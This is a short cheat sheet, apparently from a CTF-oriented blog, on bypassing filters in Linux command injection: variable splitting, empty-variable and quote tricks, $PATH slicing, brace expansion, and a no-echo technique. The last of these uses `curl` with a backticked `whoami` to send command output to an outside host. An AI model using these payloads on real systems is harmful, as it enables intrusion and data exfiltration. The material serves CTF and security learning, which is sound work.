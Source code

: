 
## >, + filter
For filtering of symbols such as >,+, etc., the \$PS2 variable is >, and the \$PS4 variable is +

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528093759328.png#pic_center)

## Keyword bypass

- Achieving the effect of bypassing through split command: `a=l;b=s;$a$b`
- Empty variable bypass: `cat fl${x}ag` `cat tes$(z)t/flag`
- Control environment variables bypass:
First use `echo $PATH` to get the environment variable ="/usr/local/….blablabla"
Then use `echo ${#PATH}` to get the length
Then you need to intercept which character you want.
${PATH:0:1} ='/'
${PATH:1:1} ='u'
${PATH:0:4} ='/usr'
- Null value bypass: `cat fl""ag` `cat fl''ag` `cat "fl""ag"`
- Backslash bypass: `ca\t flag`
`l\s`

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528093241745.png#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/20210528093649570.png#pic_center)

## Empty variable

\$* and \$@, \$x(x represents 1-9), \${x}(x>=10): For example `ca${21}t a.txt` means `cat a.txt`
In the absence of incoming parameters, these special characters are empty by default, as follows:
- wh$1oami
- who$@ami
- whoa$*mi

![Insert the picture description here](https://img-blog.csdnimg.cn/2021052809053980.png#pic_center)

## How to use curly braces

In Linux bash, you can also use `{OS_COMMAND,ARGUMENT}` to execute system commands `{cat,flag}`

![Insert the picture description here](https://img-blog.csdnimg.cn/2021052809285025.png#pic_center)

## No echo command execution

The result of the command can be output to the accessed url through the curl command:

```php
curl www.rayi.vip/`whoami`
```

You can see in the server log: `xx.xx.xx.xx - - [12/Aug/2019:10:32:10 +0800] "GET /root HTTP/1.1" 404 146 "-" "curl/7.58.0"`, so that the echo of the command can be seen in the log
